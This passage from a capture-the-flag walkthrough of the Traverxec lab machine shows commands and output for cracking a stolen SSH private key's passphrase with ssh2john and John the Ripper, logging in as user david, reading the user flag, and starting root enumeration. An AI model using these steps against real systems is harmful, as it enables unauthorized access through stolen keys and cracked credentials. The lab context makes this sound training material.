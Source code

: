 However, we need to identify the passphrase for the `id_rsa` for SSH login.
```shell
root@kali:~# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 

```

We can achieve this purpose using `ssh2john`.<br>
The passphrase for the `id_rsa` is `hunter`.
```shell
root@kali:~# cp home/david/.ssh/id_rsa .

root@kali:~# python /usr/share/john/ssh2john.py id_rsa > hash.txt

root@kali:~# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:04 DONE (2020-04-11 21:05) 0.2277g/s 3266Kp/s 3266Kc/s 3266KC/sa6_123..*7¡Vamos!
Session completed
```

Now we have enough information to log in to `Traverxec`.<br>
We can get a shell as user `david`.
```shell
root@kali:~# ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

`user.txt` is in the home directory of `david`.
```shell
david@traverxec:~$ cat user.txt 
7db0b48469606a42cec20750d9782f3d
```


## 3. Getting Root
We have another directory `~/bin` in the home directory of `david`.
```shell
david@traverxec:~$ ls
bin  public_www  user.txt

david@traverxec:~$ cd bin

david@traverxec:~/bin$ ls -la
total 16
drwx------ 2 david david 4096 Oct 25 16:26 .
drwx--x--x 5 david david 4096 Oct 25 17:02 ..
-r-------- 1 david david  802 Oct 25 16:26 server-stats.head
-rwx------ 1 david david  363 Oct 25 16:26 server-stats.sh
```

